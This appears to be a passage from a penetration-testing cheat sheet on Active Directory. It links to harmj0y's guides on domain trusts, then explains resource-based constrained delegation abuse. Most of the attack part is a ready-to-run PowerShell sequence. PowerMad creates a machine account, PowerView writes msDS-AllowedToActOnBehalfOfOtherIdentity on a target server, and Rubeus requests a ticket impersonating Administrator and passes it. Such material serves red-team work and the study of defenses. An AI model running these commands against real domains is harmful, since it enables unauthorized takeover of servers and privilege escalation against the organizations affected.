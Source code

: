 ##  Trusts Explained
-   [A Pentester’s Guide to Group Scoping – harmj0y](http://www.harmj0y.net/blog/activedirectory/a-pentesters-guide-to-group-scoping/)
-   [A Guide to Attacking Domain Trusts – harmj0y](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)

***

## Exploitation
### Resource-based constrained delegation

Resource-Based Constrained Delegation (RBCD) configures the _backend server_ (e.g. MSSQL) to allow _only selected frontend services_ (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.

DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.

In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the _frontend service_) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the _backend service_. This means that the _frontend service_ needs to have an SPN set. Thus, attacks against RBC have to be performed from either a service account with SPN or a machine account.

#### Exploitation

If we compromise a _frontend service_ that appears in the RBCD property of a _backend service_, exploitation is the same as with constrained delegation above. This is however not too common.

A more often-seen attack to RBCD is when we have `GenericWrite`, `GenericAll`, `WriteProperty`, or `WriteDACL` permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation above.

```powershell
# Create a new machine account using PowerMad
New-MachineAccount -MachineAccount InconspicuousMachineAccount -Password $(ConvertTo-SecureString 'Compromised123!' -AsPlainText -Force)

# Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target
$sid = Get-DomainComputer -Identity InconspicuousMachineAccount -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

# Use PowerView to use our GenericWrite (or similar) priv to apply this SD to the target
Get-DomainComputer -Identity TargetSrv01 | Set-DomainObject -Set @{'msdsallowedtoactonbehalfofotheridentity'=$SDBytes}

# Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target
.\Rubeus.exe s4u /user:InconspicuousMachineAccount$ /rc4:3644AC5E3D9441CCBCEF08CBAF98E910 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv01.corp1.com /ptt
```

